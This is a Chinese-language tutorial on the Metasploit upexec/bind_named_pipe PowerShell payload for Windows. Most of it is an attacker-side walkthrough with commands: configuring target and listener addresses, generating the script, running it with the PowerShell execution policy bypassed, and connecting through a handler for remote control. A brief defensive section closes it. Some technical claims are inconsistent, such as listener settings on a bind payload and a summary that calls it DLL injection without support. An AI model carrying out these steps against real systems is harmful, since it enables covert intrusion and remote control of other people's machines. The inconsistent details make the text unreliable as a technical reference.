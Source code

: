 `upexec` 是 Metasploit 框架中的一种 payload 模块，主要用于在目标系统上通过特定的方式上传并执行恶意代码。结合 `bind_named_pipe`，它在 Windows 系统上通过命名管道（Named Pipe）实现远程命令执行和通信。这种方法增加了隐蔽性和灵活性，使得攻击者能够通过命名管道在目标系统上执行命令。

### `upexec` 详解

1. **概念**：
   - **upexec**：`upexec` 是 Metasploit 的一种 payload，专门用于上传和执行恶意代码。它能够将恶意代码传输到目标系统并执行，从而实现远程控制。
   - **命名管道（Named Pipe）**：命名管道是 Windows 操作系统中的一种进程间通信机制，允许不同进程间通过管道名称进行通信。命名管道具有较高的隐蔽性，因为它们通常用于合法的系统通信。

2. **工作原理**：
   - `upexec` payload 生成一个 PowerShell 脚本，该脚本在目标系统上创建一个命名管道并绑定一个 shell。
   - 攻击者可以通过连接到这个命名管道，上传并执行恶意代码。
   - 这种方法利用了命名管道的隐蔽性，使得恶意活动不易被常规的网络监控和防火墙检测到。

3. **用途**：
   - **隐蔽访问**：通过命名管道进行通信和命令执行，增加了后门的隐蔽性。
   - **远程控制**：提供一个绑定的命名管道，攻击者可以通过这个管道实现远程控制和后渗透操作。

### 使用 `upexec/bind_named_pipe` 的步骤

1. **加载模块**：
   在 Metasploit 控制台中加载 `cmd/windows/powershell/upexec/bind_named_pipe` payload：
   ```sh
   use payload/cmd/windows/powershell/upexec/bind_named_pipe
   ```

2. **设置选项**：
   配置目标参数，如目标 IP 地址、端口以及命名管道名称等：
   ```sh
   set RHOST <target_ip>
   set PIPE_NAME <pipe_name>
   set LHOST <your_ip>
   set LPORT <your_port>
   ```

3. **生成和传输脚本**：
   生成包含上传执行和绑定命名管道功能的 PowerShell 脚本：
   ```sh
   generate -f ps1 -o upexec_bind_named_pipe.ps1
   ```
   将生成的 PowerShell 脚本传输到目标系统。

4. **执行 PowerShell 脚本**：
   在目标系统上执行传输的 PowerShell 脚本，启动命名管道并绑定 shell。

### 示例

以下是使用 `cmd/windows/powershell/upexec/bind_named_pipe` payload 的一般步骤：

1. **配置 Metasploit**：
   ```sh
   use payload/cmd/windows/powershell/upexec/bind_named_pipe
   set RHOST 192.168.1.100
   set PIPE_NAME mypipe
   set LHOST 192.168.1.200
   set LPORT 5555
   ```

2. **生成 PowerShell 脚本**：
   ```sh
   generate -f ps1 -o upexec_bind_named_pipe.ps1
   ```

3. **传输和执行脚本**：
   将生成的 PowerShell 脚本传输到目标系统，并在 PowerShell 中执行：
   ```sh
   powershell -ExecutionPolicy Bypass -File upexec_bind_named_pipe.ps1
   ```

4. **连接到命名管道**：
   使用 Metasploit 连接到目标系统上的命名管道，获取远程控制权限：
   ```sh
   use exploit/multi/handler
   set PAYLOAD cmd/windows/powershell/upexec/bind_named_pipe
   set LHOST 192.168.1.200
   set LPORT 5555
   exploit
   ```

### 安全注意事项

- **检测和防御**：监控系统中的命名管道活动，尤其是异常的管道创建和通信，使用入侵检测系统（IDS）进行实时监控。
- **权限控制**：限制用户执行 PowerShell 脚本的权限，并启用严格的 PowerShell 执行策略。
- **日志审计**：启用详细的日志记录，审计系统中的命名管道创建和命令执行活动，以便及时发现和响应潜在的攻击。

### 总结

`cmd/windows/powershell/upexec/bind_named_pipe` 是一种结合 DLL 注入和命名管道技术的 Metasploit payload。它通过 PowerShell 脚本在 Windows 系统上实现恶意代码上传和执行，并绑定一个命名管道，使攻击者可以通过这个管道实现远程控制和后渗透操作。这种方法利用了命名管道的隐蔽性和灵活性，同时也提高了攻击的复杂性。管理员应采取适当的安全措施来检测和防御此类攻击。